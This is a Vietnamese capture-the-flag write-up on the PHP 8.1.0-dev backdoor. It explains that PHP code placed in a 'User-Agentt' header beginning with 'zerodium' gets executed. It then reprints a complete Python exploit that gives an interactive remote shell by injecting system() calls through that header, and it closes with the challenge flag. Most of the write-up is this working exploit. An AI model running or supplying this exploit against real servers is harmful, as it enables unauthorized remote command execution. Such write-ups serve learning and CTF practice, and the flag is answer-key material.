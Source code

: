 <h1>Vul: RCE (CVE PHP/8.1.0-dev)</h1>

Đây giao diện của web

![](./img/1.png)

Để ý phiên bản của PHP

![](./img/2.png)

Theo như bài viết <a href="https://flast101.github.io/php-8.1.0-dev-backdoor-rce/">này</a>, thì ở dòng 370 thực thi mã PHP từ bên trong <b>user-agent HTTP</b> của người dùng, nếu chuỗi bắt đầu bằng <b>zerodium</b>.

![](./img/3.png)

Mã nguồn khai thác lỗ hổng tại <a href="https://www.exploit-db.com/exploits/49933">đây</a>

```python
import os
import re
import requests

host = input("Enter the full host url:\n")
request = requests.Session()
response = request.get(host)

if str(response) == '<Response [200]>':
    print("\nInteractive shell is opened on", host, "\nCan't acces tty; job crontol turned off.")
    try:
        while 1:
            cmd = input("$ ")
            headers = {
            "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
            "User-Agentt": "zerodiumsystem('" + cmd + "');"
            }
            response = request.get(host, headers = headers, allow_redirects = False)
            current_page = response.text
            stdout = current_page.split('<!DOCTYPE html>',1)
            text = print(stdout[0])
    except KeyboardInterrupt:
        print("Exiting...")
        exit

else:
    print("\r")
    print(response)
    print("Host is not available, aborting...")
    exit
```

Kết quả:

![](./img/4.png)

```
Flag: BDSEC{php_15_7h3_b357_pr06r4mm1n6_l4n6u463}
```